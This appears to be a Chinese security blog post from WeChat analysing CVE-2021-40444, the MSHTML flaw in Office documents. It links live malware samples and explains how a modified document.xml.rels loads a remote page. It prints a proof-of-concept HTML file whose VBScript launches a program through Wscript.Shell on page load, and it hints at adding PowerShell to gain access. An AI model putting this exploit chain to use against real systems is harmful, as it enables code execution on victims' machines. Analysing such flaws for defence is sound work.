 #  0Day - CVE-2021-40444 分析与利用

原创 校长  [ 不懂安全的校长 ](javascript:void\(0\);)

**不懂安全的校长** ![]()

微信号 sectip

功能介绍 校长不懂安全，总是发些奇奇怪怪的笔记！

____

__

收录于话题

## 0x01 前言

最近这个CVE-2021-40444挺多人想复现的，于是今天就抽空的来看了一下。

 **样本:**

`https://bazaar.abuse.ch/sample/938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52/`

`https://bazaar.abuse.ch/sample/d0fd7acc38b3105facd6995344242f28e45f5384c0fdf2ec93ea24bfbc1dc9e6`

`https://bazaar.abuse.ch/sample/1fb13a158aff3d258b8f62fe211fabeed03f0763b2acadbccad9e8e39969ea00`

![](https://gitee.com/fuli009/images/raw/master/public/20210910222738.png)![](https://gitee.com/fuli009/images/raw/master/public/20210910222744.png)![](https://gitee.com/fuli009/images/raw/master/public/20210910222745.png)![](https://gitee.com/fuli009/images/raw/master/public/20210910222746.png)

## 0x02 分析

在测试环境中打开文档

![](https://gitee.com/fuli009/images/raw/master/public/20210910222747.png)是的，它在远程加载！

我们先开启开发工具

![](https://gitee.com/fuli009/images/raw/master/public/20210910222748.png)

然后解压我们下载的`.docx`,使用`7-Zip`来提取文件

![]()`\word\_rels\document.xml.rels`找到这个文件然后打开它

![](https://gitee.com/fuli009/images/raw/master/public/20210910222749.png)发现时通过`MSHTML`来进行远程代码执行

查看它的`html`文件，该文件包含混淆的
`JavaScript`![](https://gitee.com/fuli009/images/raw/master/public/20210910222751.png)

提取一下下载的`.cab`文件，发现里面从提取出名字为`Championship.inf`的文件，并使用目录遍历攻击来运行该文件

![](https://gitee.com/fuli009/images/raw/master/public/20210910222752.png)![](https://gitee.com/fuli009/images/raw/master/public/20210910222753.png)

梳理一下，它是通过打开文档来远程加载文件地址，然后在本地执行`cab文件`并且在内存中加载`Championship.inf`

这么看来其实利用很简单！

## 0x03 复现

我们自己本地配置一下环境
修改`\word\_rels\document.xml.rels`把原先地址修改成我们的![](https://gitee.com/fuli009/images/raw/master/public/20210910222754.png)

参考文档:

`https://www.freebuf.com/articles/network/243747.html`

 **side.html:**

    
    
    <html>  
    <head>  
    <meta http-equiv="Content-Language" content="en-us">  
    <meta http-equiv="Content-Type" content="text/html; charset=windows-1252">  
    <title>Outlook</title>  
    <script id=clientEventHandlersVBS language=vbscript>  
      
    <!--  
     Sub window_onload()  
         Set cmd = CreateObject("Wscript.Shell")  
         cmd.Run("calc")  
     End Sub  
    -->  
    </script>  
    </head>  
    <body>  
    <h1>CVE-2021-40444</h1>  
     <object classid="clsid:edbc374c-5730-432a-b5b8-de94f0b57217" id="ViewCtl1" data="" width="100%" height="100%"></object>  
    </body>  
    </html>  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210910222756.png)

## 0x04 结尾

稍微的结合一下`Powershell`即可打开获取权限![](https://gitee.com/fuli009/images/raw/master/public/20210910222757.png)

 **  
**

 **题外话(知识星球):** 分享Red Team技巧｜资源｜工具 等等 我的学习笔记也会发在这里，顺便督促自己不断学习 &&
偶尔比较佛，或者有事会断更。但是校长一定会一直更新下去的！包括但不限于红队内容。![](https://gitee.com/fuli009/images/raw/master/public/20210910222758.png)

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

0Day - CVE-2021-40444 分析与利用

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

